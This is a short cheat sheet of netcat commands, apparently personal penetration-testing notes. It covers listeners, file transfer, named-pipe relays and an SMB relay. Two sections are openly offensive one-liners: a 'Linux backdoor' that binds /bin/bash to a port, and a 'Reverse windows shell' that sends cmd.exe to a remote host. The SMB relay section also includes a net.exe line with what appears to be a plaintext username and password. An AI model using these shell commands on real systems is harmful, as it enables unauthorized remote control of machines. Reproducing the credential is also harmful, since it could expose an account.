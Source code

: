 # Netcat Notes

### Client and listener

```
nc -l -p 2222
nc <IP> <port>
```

### pull a file

```
Get-Content text.txt | nc -l -p 1234
nc <IP> <port> > received.txt
```

### push a file

```
nc -l -p <port> | Out-File -FilePath received2.txt
cat file.txt | nc <IP> <port>
```

### Linux backdoor

```
nc -l -p <port> -e /bin/bash
nc <IP> <port>
```

### Reverse windows shell

```
nc -l -p 8888
nc 10.10.75.1 8888 -e cmd.exe
```


### Relays

```
mkfifo namedpipe
nc -l -p 8080 < namedpipe | nc 172.30.0.55 80 > namedpipe
```

when above is set up on 172.30.0.50 we can do this, and it will move curl from .50 to .55
```
curl http://172.30.0.50:8080
```

### Relay for SMB

```
mkfifo namedpipe
sudo nc -l -p 445 < namedpipe | nc 172.30.0.22 445 > namedpipe
net.exe use * \\10.10.75.1\data /u:erigby weddingrice
net.exe use
```
